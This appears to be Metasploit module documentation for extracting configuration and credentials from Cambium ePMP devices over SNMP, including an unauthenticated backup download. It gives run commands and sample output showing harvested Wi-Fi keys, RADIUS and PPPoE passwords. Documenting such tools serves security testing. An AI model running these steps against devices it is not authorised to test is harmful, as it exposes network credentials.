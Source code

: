 Cambium devices (ePMP, PMP, Force, others) can be administered using SNMP. The device configuration contains IP addresses, keys, and passwords, amongst other information. This module uses SNMP to extract Cambium ePMP device configuration. On certain software versions, specific device configuration values can be accessed using SNMP RO string, even though only SNMP RW string should be able to access them, according to MIB documentation.

The module also triggers full configuration backup, and retrieves the backup url. The configuration file can then be downloaded without authentication. The module has been tested on Cambium ePMP versions <=3.5.

Note: If the backup url is not retrieved, it is recommended to increase the TIMEOUT and reduce the number of THREADS.

## Verification Steps

1. Do: ```use auxiliary/scanner/snmp/epmp1000_snmp_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set COMMUNTY [SNMP_COMMUNUTY_STRING]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/snmp/epmp_snmp_loot
msf auxiliary(epmp_snmp_loot) > set rhosts 1.3.3.7
msf auxiliary(epmp_snmp_loot) > set COMMUNITY private
msf auxiliary(epmp_snmp_loot) > run

msf auxiliary(epmp1000_snmp_loot) > run

[*] Fetching System Information...

[+] 1.3.3.7
[+] SNMP System Name: Cambium
[+] SNMP System Description: Cambium
[+] Device UpTime: 0021:08:36:45
[+] U-boot version: U-Boot 9350_PX 1.1.4.e (Feb 24 2016 - 20:14:38) 

[*] Fetching SNMP Information...

[+] SNMP read-only community name: public
[+] SNMP read-write community name: private
[+] SNMP Trap Community: cambiumtrap
[+] SNMP Trap Server IP Address: Null 

[*] Fetching WIFI Information...

[+] Wireless Interface SSID: SSID
[+] Wireless Interface Encryption Key: secretkey
[+] Wireless Interface Encryption (1 - Open mode, 2 - wpa2 mode, 3 - EAP-TTLS): 2 

[*] Fetching WIFI Radius Information...

[+] RADIUS server info:
[+] RADIUS server port: Null
[+] RADIUS server secret: Null
[+] Wireless Radius Username: cambium-station
[+] Wireless Radius Password: cambium 

[*] Fetching Network PPPoE Information...

[+] Network PPPoE Service Name: temp
[+] Network PPPoE Username: username
[+] Network PPPoE Password: password

[+] 1.3.3.7 - Cambium ePMP loot saved at /root/.msf4/loot/20000000000003_default_1.3.3.7_snmp_loot_000001.txt
[+] 1.3.3.7 - Configuration backed-up for direct download at: http://1.3.3.7/dl/3.5_00000000000001.json
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
